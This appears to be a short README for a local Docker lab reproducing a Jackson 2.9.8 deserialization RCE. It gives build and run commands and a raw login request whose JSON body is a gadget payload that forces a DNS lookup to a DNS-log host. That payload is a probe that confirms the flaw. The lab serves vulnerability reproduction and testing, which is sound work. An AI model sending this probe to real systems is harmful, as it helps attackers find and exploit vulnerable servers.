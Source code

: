 # lab

## jackson rce复现
jackson版本为2.9.8

```
docker build -t jackson_rce .
docker run -p 8090:8090 jackson_rce
```
访问
http://127.0.0.1:8090
登录包存在漏洞
```
POST /api/login HTTP/1.0
Host: 127.0.0.1:8090
Content-Type: application/json
Content-Length: 73

["java.net.InetAddress","dnslog地址"]
```

探测poc:
```
["java.net.InetAddress","dnslog地址"]
```
